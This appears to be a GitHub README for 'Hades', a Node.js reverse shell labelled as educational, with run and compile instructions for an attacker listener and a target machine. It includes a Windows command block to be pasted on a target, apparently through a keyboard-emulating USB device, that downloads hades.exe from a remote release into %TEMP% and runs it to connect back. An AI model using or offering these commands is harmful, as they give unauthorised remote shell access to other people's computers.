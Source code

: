 # Hades
Simple reverse shell developed for education purposes.

This program is written in Typescript and is made to run with [Node.js](https://nodejs.org/). Some libraries are required, [see](#libs) the list of libraries used in this project.

![image info](demo.png)

## How to use
### Disclaimer
- This reverse shell is for academic purposes, the use of this software is your responsibility.
- This software is still in development, not all the features are implemented yet.

### Use with Node.js
1) Run `npm install`
2) Run `node src/main.js -a [port to listen on]` on the main machine.
3) Run `node src/main.js -c [admin's ip] [admin's port]` on a target machine.

### Use a compiled version (Recommended)
1) Garb a compiled version of the program.
2) Run `hades -a [port to listen on]` on the main machine.
3) Run `hades -c [admin's ip] [admin's port]` on a target machine.

## Compile using Nexe
To compile from source, you will need to follow the instructions listed below.

1) Run `npm install`
2) [Transpile](https://code.visualstudio.com/docs/typescript/typescript-compiling) all `.ts` files into `.js`.
3) Install [Nexe](https://github.com/nexe/nexe).
4) Run `nexe src/main.js -o bin/hades -t "linux-x64-14.15.3" -r "src/**.js"`.
5) Change `linux-x64` with the os you are using following by the [architecture](https://linuxconfig.org/what-is-my-architecture-is-my-cpu-64-bit-or-32-bit#:~:text=The%20best%20way%20to%20quickly,default%20on%20all%20Linux%20distros.) of your CPU.

Note that the program is already compiled in the `bin` directory, and LTS versions can be found in the Releases section.

## Libs
Here is the list of used libraries, you can download all of them using `npm install`.
- `Axios` - Used to send requests.
- `Body-parser` - Used to parse responses.
- `WSS` - Used for socket connections.
- `Express` - Used to setup servers.

## Run from command line
This can be usefull for exemple if you want to use a USB stick which simulate a keyboard when you plug it into a machine.

### Window
Copy and paste the commands in a cmd on a target machine

```bash
cd %TEMP%
powershell wget "https://github.com/AntoineBRTL/Hades/releases/download/1.0/hades.exe" -outfile "h.exe"
h.exe -c localhost
exit
```

### Linux 
Not done yet

### MacOS
Not done yet
